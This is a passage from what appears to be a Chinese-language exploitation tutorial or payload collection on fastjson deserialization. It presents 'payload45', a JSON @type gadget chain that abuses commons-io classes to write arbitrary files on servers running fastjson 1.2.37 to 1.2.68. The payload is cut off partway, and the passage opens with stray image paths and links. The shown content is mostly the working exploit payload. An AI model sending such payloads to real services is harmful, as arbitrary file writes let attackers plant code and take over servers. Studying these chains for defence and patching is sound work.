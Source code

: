 [![](assets/1706959415-a09946ead48f4413b92a85af5d5716ec.png)](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/image-20231021115924790.png)

[![](assets/1706959415-c333cafd2a22f2a6b9dd32f54468d388.png)](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/image-20231021115937822.png)

## 五、文件写入

## 5.1 commons-io 2.x (1.2.37<=version<=1.2.68)

### 5.1.1 最初公开的 payload（只能在 centos 下利用）

`payload45`：

```plain
{
    "x":{
        "@type":"java.lang.AutoCloseable",
        "@type":"sun.rmi.server.MarshalOutputStream",
        "out":{
            "@type":"java.util.zip.InflaterOutputStream",
            "out":{
                "@type":"java.io.FileOutputStream",
                "file":"C:/Users/whoami/Desktop/testtesttest.txt",
                "append":false
            },
            "infl":{
                "input":"SGVsbG8sIFcwMWZoNGNrZXIh"
```